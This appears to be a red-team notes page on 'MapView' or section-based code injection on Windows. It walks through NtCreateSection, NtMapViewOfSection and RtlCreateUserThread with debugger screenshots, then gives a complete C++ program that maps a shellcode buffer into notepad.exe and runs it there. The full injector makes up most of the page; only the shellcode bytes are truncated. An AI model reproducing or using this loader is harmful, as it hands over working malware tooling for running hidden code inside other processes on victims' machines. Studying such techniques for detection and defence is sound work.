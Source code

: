 ```yaml
---
title: Sections and Views Injection
category: Maldev-Code Injection
order: 2
---
```


This technique has a different way to inject the code on a remote process. MapView Code Injection uses typicall internal operation between processes. 

It is common that one process create a new section and shares the data with another process. Every memory section corresponds to one or more views. A view of a section referes to the specific part of the sectio htat is visible and accesible to a process.

So we can map a section to the remote process and create a view in order to share the shellcode to the remote process.

* `NtCreateSection`: Create a new page-file-backed section.
* `NtMapViewOfSection`: Map the section view on the local process.
* `memcpy`: Copy the payload to the section.
* `NtMapViewOfSection`: Map the same section view in the target process.
* `RtlCreateUserThread`: Execute the payload on the remote process.


# Analysis

First we need to create a Section handle on our local process with `PAGE_EXECUTE_READWRITE` rights.


```cpp
status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

As we can see the new handle `0xAC` was successfuly created with `FULL_CONTROL` cause the section access was defined with `SECTION_ALL_ACCESS`. We only need `SECTION_MAP_READ` `SECTION_MAP_WRITE` and `SECTION_MAP_EXECUTE` but in that example a full control was set.

![](/rtnotes/images/sections_01.png)

Once created the section we need to map to a new local view. A `RW` rights are needed in order to copy the payload to the section.

```cpp
status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
```

When the section is already mapped, we can see the memory space on the local process.

![](/rtnotes/images/sections_02.png)

Now the payload can be copied to the local view.

![](/rtnotes/images/sections_03.png)

In order to execute the payload on a remote process we need to create a remote view of the same section. To do that we need the handler of the target process.

```cpp
pid = FindProcess("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
```

As we can see the section was successfuly mapped to the remote process and the payload was delivered on memory.

![](/rtnotes/images/sections_04.png)

Finally we can use `RtlCreateUserThread` to execute the remote view.

```cpp
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
if(hThread != NULL){
    WaitForSingleObject(hThread, 500);
    CloseHandle(hThread);
}
```

![](/rtnotes/images/sections_05.png)

# Code

Example of MapView injection:

```cpp

//
//  @benjugat
//

#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef struct _OBJECT_ATTRIBUTES {
  ULONG Length;
  HANDLE RootDirectory;
  PUNICODE_STRING ObjectName;
  ULONG Attributes;
  PVOID SecurityDescriptor;
  PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;

typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	

typedef FARPROC (WINAPI * t_RtlCreateUserThread)(
    HANDLE ProcessHandle,
    PSECURITY_DESCRIPTOR SecurityDescriptor,
    BOOLEAN CreateSuspended,
    ULONG StackZeroBits,
    PULONG StackReserved,
    PULONG StackCommit,
    PVOID StartAddress,
    PVOID StartParameter,
    PHANDLE ThreadHandle,
    PCLIENT_ID ClientId
);

typedef NTSTATUS (NTAPI * t_NtCreateSection)(
    PHANDLE SectionHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PLARGE_INTEGER MaximumSize,
    ULONG SectionPageProtection,
    ULONG AllocationAttributes,
    HANDLE FileHandle
);

typedef NTSTATUS (NTAPI * t_NtMapViewOfSection)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID * BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect
);


int FindProcess(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        printf("[+] Process found -> %s : %d\n", procname, pid);
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}


int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    HANDLE hThread = NULL;
    HANDLE hSection = NULL;
    CLIENT_ID cid;
    PVOID pLocalView = NULL, pRemoteView = NULL;
    NTSTATUS status;
    unsigned char payload[] = {0xfc, 0x48, 0x83,...};
    SIZE_T payload_len = sizeof(payload);
    pid = FindProcess("notepad.exe");
    if(pid){
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
        if(hProc != NULL){
            // Create a Section
            t_NtCreateSection pNtCreateSection = (t_NtCreateSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateSection");
            status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
            printf("pNtCreateSection -> status=0x%x\n", status);
            printf("\t hSection=0x%p\n", hSection);
            getchar();
            
            // Create a local view to the new section
            t_NtMapViewOfSection pNtMapViewOfSection = (t_NtMapViewOfSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
            status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
            printf("pNtMapViewOfSection -> status=0x%x\n", status);
            printf("\t pLocalView=0x%p\n", pLocalView);
            getchar();

            // Copy the payload to the section
            memcpy(pLocalView, payload, payload_len);
            printf("Payload copied\n");
            getchar();

            // Create a remote view to the new section
            status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
            printf("pNtMapViewOfSection -> status=0x%x\n", status);
            printf("\t pRemoteView=0x%p\n", pRemoteView);
            getchar();


            // Execute the remote view
            t_RtlCreateUserThread pRtlCreateUserThread = (t_RtlCreateUserThread) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
            pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
            if(hThread != NULL){
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
            }
            
        }
        CloseHandle(hProc);
    }else{
        printf("[-] Notepad.exe not found!\n");
    }
    
    
    return 0;
}
```